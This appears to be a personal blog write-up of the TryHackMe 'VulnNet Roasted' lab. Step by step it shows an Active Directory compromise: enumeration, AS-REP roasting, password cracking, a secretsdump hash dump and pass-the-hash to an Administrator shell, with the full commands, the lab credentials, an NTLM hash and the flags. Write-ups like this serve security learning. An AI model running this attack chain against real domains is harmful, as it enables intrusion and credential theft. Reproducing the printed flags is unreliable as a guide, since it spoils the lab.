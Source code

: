 ```yaml
---
layout: post
title: "VulnNet Roasted – TryHackMe"
categories: thm
date: 2025-07-20
---
```


## 🧠 Summary
VulnNet Roasted is an **Active Directory (AD) exploitation** challenge on TryHackMe. It involves **enumeration, AS-REP roasting, password cracking, privilege escalation using secretsdump**, and **retrieving user and system flags**.

> **Note:** I had difficulties because I don’t have deep knowledge of AD yet. This made it confusing to understand SID, RID, Kerberos attacks, and pass-the-hash concepts initially.

---

## 🔍 Tools Used
- `nmap`
- `enum4linux-ng`
- `lookupsid.py` (Impacket)
- `GetNPUsers.py` (Impacket)
- `john` (password cracking)
- `smbclient`
- `evil-winrm` (shell access)
- `secretsdump.py` (Impacket)

---

## 💻 Target Info
Machine Name: VulnNet Roasted
Platform: TryHackMe
Difficulty: Medium
Target IP (initial): 10.10.57.250
Redeployed IPs: 10.10.149.244, 10.10.67.90 (due to session expiry after ~20 mins)
Domain: vulnnet-rst.local
OS: Windows Server 2019 (based on Nmap results)
Tags: Active Directory, Kerberos, Pass-the-Hash, Impacket, Evil-WinRM, Privilege Escalation

---
## ✅ Step 1: Nmap Scan
We start by scanning the target for open ports:

```bash
nmap -sC -sV -Pn -A 10.10.57.250
```
Key Findings:
- Domain Controller detected
- Domain: vulnnet-rst.local

Important Ports:
- 88 (Kerberos) – Authentication
- 445 (SMB) – File Sharing
- 135, 139 – RPC and NetBIOS
- 389, 3268 – LDAP (AD services)
- 5985 – WinRM (for remote shell)

![Nmap Scan Results](/assets/img/vulnnet/nmap.png)

## ✅ Step 2: SMB Enumeration
Check available SMB shares:

```bash
smbclient -L \\\\10.10.57.250\\
```
Output:
- NETLOGON
- SYSVOL
- VulnNet-Business-Anonymous
- VulnNet-Enterprise-Anonymous

![SMB Shares](/assets/img/vulnnet/smb_shares.png)

Difficulty Faced:
- At first, I thought flags were inside these anonymous shares, but they contained only .txt business info files (decoys).

## ✅ Step 3: SID & RID Enumeration
I had trouble understanding SID and RID initially.

What are SID and RID?
- SID (Security Identifier): Unique identifier for a user/group in AD.
- RID (Relative Identifier): The last part of SID, differentiating accounts.
  
Example:

S-1-5-21-1589833671-435344116-4136949213-500

Here, 500 = Administrator RID.

Command:
```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py vulnnet-rst.local/guest@10.10.149.244
```
We found user accounts:
- a-whitehat
- t-skid
- j-goldenhand
- j-leet

![RID Enumeration](/assets/img/vulnnet/lookupsid.png)

## ✅ Step 4: AS-REP Roasting
Some users do not require pre-authentication. We exploit this using:
```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile vuln.txt
```
Result:
```bash
t-skid@VULNNET-RST.LOCAL:$krb5asrep$23$...
```

![AS-REP Hash Found](/assets/img/vulnnet/asrep.png)

Cracking the Hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt roasted.hash
```
Password Found:
t-skid : tj072889*

![Password Cracked](/assets/img/vulnnet/john.png)

## ✅ Step 5: Lateral Movement
Logged in as t-skid with SMB and found ResetPassword.vbs in NETLOGON share.
Command:
```bash
smbclient \\\\10.10.149.244\\NETLOGON -U vulnnet-rst.local\\t-skid
```
Inside, we discovered credentials:
```bash
a-whitehat : bNdKVkjv3RR9ht
```

![ResetPassword.vbs Found](/assets/img/vulnnet/resetpw.png)

## ✅ Step 6: Dumping Domain Hashes (Privilege Escalation)
Using a-whitehat credentials:
```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc a-whitehat:bNdKVkjv3RR9ht@10.10.67.90
```
We got Administrator NTLM hash:
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d
```

![Secretsdump Output](/assets/img/vulnnet/secretsdump.png)

## ✅ Step 7: Pass-the-Hash & Get Administrator Shell
```bash
evil-winrm -i 10.10.67.90 -u Administrator -H c2597747aa5e43022a3a3049a3c3b09d
```
😈 Got Administrator access!

![Administrator Access](/assets/img/vulnnet/admin_shell.png)

## ✅ Step 8: Capture the Flags
Find system.txt and user.txt:
```bash
Get-ChildItem -Path C:\Users -Include *system.txt* -Recurse | Get-Content
Get-ChildItem -Path C:\Users -Include *user.txt* -Recurse | Get-Content
```
Flags:
```bash
User: THM{726b7c0baac1455d05c827b5561f4ed}
System: THM{16f45e3934293a57645f8d7bf71d8d4c}
```

![Flags Found](/assets/img/vulnnet/flags.png)

## ✅ Lessons Learned:
- SID & RID concepts: Critical for AD enumeration.
- AS-REP Roasting: Exploits accounts without pre-authentication.
- Pass-the-Hash: No password required, only NTLM hash.
- Persistence: Multiple re-deployments were needed due to lab expiry.
- Difficulty: Without prior AD knowledge, understanding Kerberos, RID cycling, and WinRM was challenging.

## ✅ Final Thoughts:
This box taught me:
- The real power of Impacket tools.
- The importance of enumeration in AD.
- How lateral movement happens in corporate environments.

🔥 This was tough but rewarding!
